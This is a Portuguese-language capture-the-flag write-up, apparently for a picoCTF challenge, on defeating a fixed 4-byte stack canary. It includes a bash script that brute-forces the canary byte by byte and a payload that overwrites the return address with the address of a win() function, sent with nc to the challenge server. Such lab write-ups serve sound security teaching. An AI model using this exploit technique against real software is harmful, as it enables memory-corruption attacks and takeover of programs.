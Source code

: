 Neste desafio, temos um *stack canary*, um mecanismo de verificação de integridade da stack.

O stack canary geralmente é um recurso adicionado pelo próprio compilador e consiste em gerar bytes aleatórios e posicioná-los na stack.

Caso ocorra *stack smashing*, ou seja, caso a stack seja sobrescrescrita por algum buffer overflow, esses bytes aleatórios serão alterados, o programa saberá que foi modificado e se fechará.

![](/Screenshots/Pasted%20image%2020220329113131.png)

Porém, neste caso, o canary (os bytes adicionados à stack) não é aleatório e é pequeno (4 bytes, conforme é possível ver no código), o que possibilita um ataque de brute force.

![](/Screenshots/Pasted%20image%2020220329113219.png)

Como o buffer tem 64 bytes, podemos escrever 64 bytes e os próximos serão comparados com o canary. É possível ver que ao mudar o 65º byte (que já está sobrescrevendo o canary), podemos descobrir qual é o seu valor real. Caso o valor esteja errado, ele retorna um erro. Caso contrário, ele retorna "Ok".

![](/Screenshots/Pasted%20image%2020220329115247.png)

Podemos facilmente fazer um script de brute force em bash:

```bash
#!/bin/bash

#bufsize + first byte from canary
bytes=64
aux=$(($bytes - 64))
#define BUFSIZE 64
size=$(($bytes-$aux))

echo "[*] Bruteforcing canary..."
#fill all the buffer
for x in 1 1 1 1; do
	bytes=$(($bytes + $x))
	buf=$(for i in `seq $size`; do echo -n "A";done)
	for((i=32;i<127;i++)); do
		current_canary=$(printf "\\$(printf %03o "$i")")
		payload=${buf}${old_canary}${current_canary}
		result=$(echo -ne "$bytes\n$payload" | ./vuln)
	#	result=$(echo -ne "$bytes\n$payload" | nc saturn.picoctf.net 49980)
		if [ "$(echo -n $result | grep Ok)" ]; then
			old_canary=${old_canary}${current_canary}
			echo $old_canary
			echo ${buf}${old_canary}
			break
		fi
	done
done

echo -e "[*] End bruteforcing. Canary found: $old_canary"
```

Ele nos retorna o canary contido no canary.txt do servidor. Uma vez descoberto, basta usarmos-no após os 64 bytes do buffer. Dessa forma, o canary não será alterado e poderemos escrever após ele mantendo sua integridade.

Depois disso, basta adicionarmos mais 16 bytes de padding e podemos controlar o EIP ao sobrescrever o endereço de retorno.

Como a função `win()` está no endereço `0x08049336`, é para ele que apontaremos o EIP. Isso pode ser feito no próprio script:
```bash
payload=$(echo 100;for i in `seq 64`; do echo -n "A";done; echo -n $old_canary; echo -n "16BytesOfGarbage"; echo -ne "\x36\x93\x04\x08")
echo -ne "$payload" | nc saturn.picoctf.net 54738
```
![](/Screenshots/Pasted%20image%2020220317130925.png)

